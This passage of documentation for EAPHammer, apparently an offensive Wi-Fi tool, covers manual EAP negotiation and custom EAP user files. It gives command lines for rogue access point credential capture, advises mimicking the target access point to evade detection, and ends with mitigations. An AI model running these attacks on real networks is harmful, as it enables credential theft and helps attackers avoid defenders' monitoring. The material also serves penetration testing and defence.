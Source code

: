 ## Manual command line configuration

To manually control which EAP methods are used by EAPHammer, as well as the order in which they are suggested to the client, use the `--negotiate manual` flag in conjuction with the `--phase-2-methods` and `--phase-1-methods` flags:

```bash
./eaphammer --interface wlan0 \
	--negotiate manual \
	--phase-1-methods PEAP,TTLS \
	--phase-2-methods MSCHAPV2,GTC,TTLS-MSCHAP \
	--auth wpa-eap \
	--essid example \
	--creds
```

Manual control over the EAP negotiation process is useful in situations where the access point's behavior must be mimicked in order to evade detection.

## Manual config files

To use your own EAP User file, instead of relying on EAPHammer's automated processes, run EAPHammer with the `--eap-user-file` flag:

```bash
./eaphammer --interface wlan0 \
	--eap-user-file /tmp/i-like-to-write-things-by-hand.eap_user \
	--auth wpa-eap \
	--essid painful \
	--creds
```

# Recommended attack methodology

In scenarios where stealth doesn't matter, use the `--negotiate gtc-downgrade` flag to lead with [@W00Tock](https://twitter.com/W00Tock)'s attack, then perform a second round of attacks using the `--negotiate speed` flag.

If you care about not getting caught, and are confident that your opponent monitors for these sorts of attacks, use the `--negotiate manual` flag to mimick the EAP method load order of the target access point.

# Mitigations

To mitigate this attack, disable support for insecure EAP methods such as EAP-GTC and EAP-PAP. It's best to do so consistently across all devices using Group Policy, an MDM solution, or any other means of managing devices in a centralized way. Using EAP-TLS is considered an industry best practice, since it uses mutual certificate-based authentication, but choosing EAP methods can be a nuanced topic that's best left to its own blog psot. 

# Monitoring for EAP downgrade attacks
